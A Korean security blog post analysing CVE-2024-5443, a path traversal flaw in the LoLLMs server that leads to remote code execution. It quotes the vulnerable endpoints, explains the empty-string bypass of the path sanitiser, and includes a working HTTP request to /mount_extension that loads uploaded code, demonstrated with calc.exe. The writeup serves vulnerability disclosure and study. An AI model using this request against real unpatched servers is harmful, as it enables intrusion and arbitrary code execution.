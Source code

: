 ```yaml
---
title: "[하루한줄] CVE-2024-5443: LoLLMs의 Path Traversal로 인한 RCE 취약점"
author: ogu123
tags:  [LoLLMs, Path Traversal, RCE, ogu123]
categories: [1day1line]
date: 2024-08-21 20:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

https://blog.huntr.com/critical-path-traversal-flaw-leads-to-remote-code-execution-in-parisneo/lollms

## Target

- LoLLMs <= 5.9.0

## Explain

LoLLMs(Lord of Large Language Models Server)는 500개의 언어 모델을 기반으로 텍스트를 생성하는 서버로 Path Traversal로 인한 RCE 취약점이 발견되었습니다.

취약점은 사용자 입력 값에 대한 검증이 미흡해 Path Traversal 발생하고 이를 통해 RCE가 가능합니다.

```
# lollms_core\\lollms\\server\\endpoints\\lollms_personalities_infos.py
# ... more code
@router.post("/get_personality_config")
def get_personality_config(data:PersonalityDataRequest):
	print("- Recovering personality config")
	category = sanitize_path(data.category) # [1]
	name = sanitize_path(data.name) # [2]
  package_path = f"{category}/{name}" # [3]
	if category=="custom_personalities":
		# ...
	else:
	 package_full_path = lollmsElfServer.lollms_paths.personalities_zoo_path/package_path # [4]
	 config_file = package_full_path / "config.yaml"
	 if config_file.exists():
		 with open(config_file,"r") as f:
			 config = yaml.safe_load(f)
		 return {"status":True, "config":config}
 # ...

```

`/get_personality_config` 앤드포인트 [1][2]번에서 data.category와 data.name 값이 사용됩니다.

이 값들은 파일 경로를 만들 때 사용되며, 사용자가 제어할 수 있습니다.


```
def sanitize_path(
	path:str, 
	allow_absolute_path:bool=False, 
	error_text="Absolute database path detected", 
	exception_text ="Detected an attempt of path traversal. Are you kidding me?"
):
	 if path is None:
		 return path

 # Regular expression to detect patterns like "...." and multiple forward slashes
 suspicious_patterns = re.compile(r'(\\.\\.+)|(/+/)')

 if suspicious_patterns.search(str(path)) or ((not allow_absolute_path) and Path(path).is_absolute()):
	 ASCIIColors.error(error_text)
	 raise HTTPException(status_code=400, detail=exception_text)

 if not allow_absolute_path:
	 path = path.lstrip('/')

 return path

```

`sanitize_path` 함수는 `../` , `/` , `\\` 와 같은 특수 문자를 필터링하여 Path Traversal 공격을 방지합니다. 하지만, 빈 문자열에 대한 검증이 부족하여 Path Traversal 취약점이 발생하게 됩니다.


```
>>> category = ""
>>> name = "tmp/hacked"
>>> package_path = f"{category}/{name}"
>>> package_path
'/tmp/hacked'
>>> package_full_path = Path("/home/user/public/")/package_path
>>> package_full_path
PosixPath('/tmp/hacked')

```

공격자가 `data.category`에 빈 문자열을, `data.name`에 특정 경로("tmp/hacked")를 입력하면,  `package_path`는 절대 경로로 설정됩니다.

이후 경로가 결합될 때 `package_path`가 절대 경로이므로 앞의 경로("/home/user/public/")는 무시되고, 공격자가 의도한 경로로 접근하게 되어 Path Traversal 취약점을 트리거 할 수 있습니다.

```
# lollms_core\\lollms\\server\\endpoints\\lollms_extensions_infos.py
# ... more code
@router.post("/mount_extension")
def mount_extension(data:ExtensionMountingInfos):
 print("- Mounting extension")
 
 category = sanitize_path(data.category)
 name = sanitize_path(data.folder)
 
 package_path = f"{category}/{name}"
 package_full_path = lollmsElfServer.lollms_paths.extensions_zoo_path/package_path
 
 config_file = package_full_path / "config.yaml" # [5]
 
 if config_file.exists():
	 lollmsElfServer.config["extensions"].append(package_path) # [6]
	 lollmsElfServer.mounted_extensions = lollmsElfServer.rebuild_extensions() # [7]
 # ...

```

CVE-2024-4320 취약점은 `/install_extension` 엔드포인트로 호출되는 `ExtensionBuilder().build_extension()` 함수를 통해 RCE가 발생했습니다.

`/install_extension` 엔드포인트는 패치되었지만, `/mount_extension` 엔드포인트를 통해 여전히`ExtensionBuilder().build_extension()` 함수를 호출할 수 있습니다.

앞서, `package_full_path`의 값을 사용자가 제어하여 원하는 경로로 설정할 수 있습니다. 

[5]번에서, 해당 경로에 `config.yaml` 파일이 존재하는지 확인하고, 파일이 존재하면`package_full_path`가 `lollmsElfServer.config["extensions"]`에 추가됩니다. 

이후 [7]번에서 `lollmsElfServer.rebuild_extensions()` 함수가 아래와 같이 실행됩니다.


```

# lollms_webui.py
# ... more code
class LOLLMSWebUI(LOLLMSElfServer):
    def rebuild_extensions(self, reload_all=False):
        # ...
        for i, extension in enumerate(self.config['extensions']):
            # ...
            if extension in loaded_names:
                # ...
            else:
                extension_path = self.lollms_paths.extensions_zoo_path / f"{extension}"
                try:
                    extension = ExtensionBuilder().build_extension(extension_path, self.lollms_paths, self)
                # ...

```

[5]번에서 추가된 경로를 포함한 모든 `extension_path`를 반복하면서, `ExtensionBuilder().build_extension()` 함수를 통해 이를 로드하게 됩니다.


```
# lollms_core\lollms\extension.py
# ... more code
class ExtensionBuilder:
    def build_extension(
        self,
        extension_path: str,
        lollms_paths: LollmsPaths,
        app,
        installation_option: InstallOption = InstallOption.INSTALL_IF_NECESSARY
    ) -> LOLLMS_Extension:
        extension, script_path = self.getExtension(extension_path, lollms_paths, app)  # [8]
        return extension(app=app, installation_option=installation_option)

    def getExtension(
        self,
        extension_path: str,
        lollms_paths: LollmsPaths,
        app
    ) -> LOLLMS_Extension:
        extension_path = lollms_paths.extensions_zoo_path / extension_path
        # 모듈의 전체 절대 경로 정의
        absolute_path = extension_path.resolve()
        # 파일 경로에서 모듈 이름 추출
        module_name = extension_path.stem
        # importlib을 사용해 파일 경로에서 모듈 로드
        loader = importlib.machinery.SourceFileLoader(module_name, str(absolute_path / "__init__.py"))  # [9]
        extension_module = loader.load_module()
        extension: LOLLMS_Extension = getattr(extension_module, extension_module.extension_name)
        return extension, absolute_path

```

`ExtensionBuilder().build_extension()` 함수가 실행되면, [8]번에서 `ExtensionBuilder().getExtension()` 함수가 호출됩니다. 이때 `extension_path`는 공격자 절대 경로 값을 사용해, `absolute_path` 변수의 값을 제어할 수 있습니다. 

이후, [9]번에서 `ExtensionBuilder().getExtension()` 함수를 통해 공격자가 지정한 절대 경로에서 `__init__.py` 파일을 찾아 코드를 실행합니다.

![](cve-2024-5443/image1.png)

취약점을 트리거 하기 위해 먼저 임의의 대화를 생성해야 합니다.

이후, `config.yaml`과 `__init__.py` 파일을 "Send file to AI" 기능을 통해 서버에 업로드합니다.


```
POST /mount_extension HTTP/1.1
Host: localhost:1337
Content-Type: application/json
Content-Length: 177
{
 "category": "",
 "folder": "/path/to/personal_data/discussion_databases/default/<discussion_id>/text_data",
 "client_id": "jg9yock1FmRZdONsAAAH",
 "language": "vi"
}

```

업로드된 `config.yaml`과 `__init__.py` 파일의 경로를 지정하여 요청을 보내면, `__init__.py` 파일 코드가 실행됩니다.

요청을 보낼 때, `discussion_id`값이 필요하지만 정수값이므로 brute-force 공격으로 쉽게 구할 수 있습니다.


![](cve-2024-5443/image2.png)

`__init__.py` 파일 내에서 calc.exe 코드가 실행된 것을 확인할 수 있습니다. 따라서 공격자는 임의의 명령어를 실행시킬 수 있습니다.

해당 취약점은 `lollms_extensions_infos.py` 파일을 삭제하여 패치되었습니다.


## Reference

- https://github.com/parisneo/lollms/commit/2d0c4e76be93195836ecd0948027e791b8a2626f#diff-a439c41fae59a1b420f981f6a87c9ce17432a89dbc6165c89002894a52fdec1e